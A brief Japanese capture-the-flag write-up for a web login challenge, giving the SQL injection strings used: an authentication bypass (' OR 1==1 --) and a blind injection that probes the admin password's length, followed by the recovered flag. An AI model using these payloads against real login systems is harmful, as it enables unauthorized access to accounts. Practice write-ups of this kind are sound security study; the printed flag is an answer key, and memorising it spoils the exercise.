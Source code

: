 ## 問題文
Login

```
http://ctfq.sweetduet.info:10080/~q6/
```

## 解説
SQLインジェクションの問題

```
id = admin
pass = ' OR 1==1 --
```
でソースを確認できる

パスワード数の特定のインジェクション攻撃
admin' AND (SELECT length(pass) FROM user WHERE id='admin') = 21; --

パスワード総当たり攻撃スクリプトを記述

FLAG_KpWa4ji3uZk6TrPK